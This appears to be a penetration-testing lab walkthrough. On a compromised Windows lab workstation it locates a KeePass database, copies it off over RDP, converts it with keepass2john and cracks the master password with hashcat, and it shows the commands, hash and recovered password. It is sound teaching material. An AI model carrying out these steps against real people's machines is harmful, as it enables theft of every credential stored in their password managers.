


---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# Password Manager

This example will demonstrate a very common penetration test scenario. Assume the attacker has gained **access to a client workstation running a password manager**.

The example will show how to extract the password manager's database, transform the file into a format usable by Hashcat, and crack the master database password.

The target machine for this example is a Windows workstation called `SALESWK01` and located at `192.168.240.203`.  The attacker has obtained the credentials `jason:lab` for the machine and it accessible via RDP.

Given that accessing via RDP will give the attacker a GUI, they can just utilize the Windows "Apps & features" function to search for password managers. In this case the attacker finds KeePass:

<figure><figcaption><p>KeePass on compromised machine</p></figcaption></figure>

If unfamiliar with KeePass, research would reveal that the KeePass database is stored as a `.kdbx` file and that there may be more than one database on the system. For example, a user may maintain a personal database and an organization may maintain a department-level database. Therefore, the next step is to locate the database files by searching for all `.kdbx` files on the system:

```powershell
C:\Users\jason> Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
    
    
    Directory: C:\Users\jason\Documents


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         5/30/2022   8:19 AM           1982 Database.kdbx
```

The output reveals a database file in the `jason` user's `Documents` folder. This file can be exfiltrated to the attacker's machine for the next stage. This can be done via a variety of methods but in this instance the decision was made to use reminna as an RDP client and simply use its [shared folder functionality](https://askubuntu.com/questions/74713/how-can-i-copy-paste-files-via-rdp-in-kubuntu) to load the file back to the attacker's machine.

&#x20;From here it must be transformed into a format crackable by one of the tools. Luckily, the JtR suite  provides a `keepass2hash` function:

```shell-session
kali@kali:~/passwordattacks$ ls -la Database.kdbx
-rwxr--r-- 1 kali kali 1982 May 30 06:36 Database.kdbx


kali@kali:~/passwordattacks$ keepass2john Database.kdbx > keepass.hash
```


```
Database:$keepass$*2*60*0*d74e29a727e9338717d27a7d457ba3486d20dec73a9db1a7fbc7a068c9aec6bd*04b0bfd787898d8dcd4d463ee768e55337ff001ddfac98c961219d942fb0cfba*5273cc73b9584fbd843d1ee309d2ba47*1dcad0a3e50f684510c5ab14e1eecbb63671acae14a77eff9aa319b63d71ddb9*17c3ebc9c4c3535689cb9cb501284203b7c66b0ae2fbf0c2763ee920277496c1
```


From here one should look for any reference to a KeePass hash type in a cracking tool:

```shell-session
kali@kali:~$ hashcat --help | grep -i "KeePass"
  13400 | KeePass 1 (AES/Twofish) and KeePass 2 (AES)                | Password Manager
  29700 | KeePass 1 (AES/Twofish) and KeePass 2 (AES) - keyfile only mode | Password Manager
```

Since Hashcat supports this type that will be used for cracking. The `13400` mode will be used. Additionally one of the built-in rule files will be used to enhance the wordlist. One last thing to note, the JtR suite includes the "`Database:`" at the front of the hash. This causes an error with Hashcat as it gets interpreted as salt and an error is thrown for invalid salt. This can be removed from the `keepass.hash` file and all will work perfectly:


```
$keepass$*2*60*0*d74e29a727e9338717d27a7d457ba3486d20dec73a9db1a7fbc7a068c9aec6bd*04b0bfd787898d8dcd4d463ee768e55337ff001ddfac98c961219d942fb0cfba*5273cc73b9584fbd843d1ee309d2ba47*1dcad0a3e50f684510c5ab14e1eecbb63671acae14a77eff9aa319b63d71ddb9*17c3ebc9c4c3535689cb9cb501284203b7c66b0ae2fbf0c2763ee920277496c1
```



```shell-session
kalie@kali:~$ hashcat -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule 
hashcat (v6.2.6) starting
...

$keepass$*2*60*0*d74e29a727e9338717d27a7d457ba3486d20dec73a9db1a7fbc7a068c9aec6bd*04b0bfd787898d8dcd4d463ee768e55337ff001ddfac98c961219d942fb0cfba*5273cc73b9584fbd843d1ee309d2ba47*1dcad0a3e50f684510c5ab14e1eecbb63671acae14a77eff9aa319b63d71ddb9*17c3ebc9c4c3535689cb9cb501284203b7c66b0ae2fbf0c2763ee920277496c1:qwertyuiop123!
                                                          
...
```


This can then be used to open the user's KeePass database:

<figure><figcaption><p>KeePass password screen</p></figcaption></figure>

<figure><figcaption><p>Successful login</p></figcaption></figure>
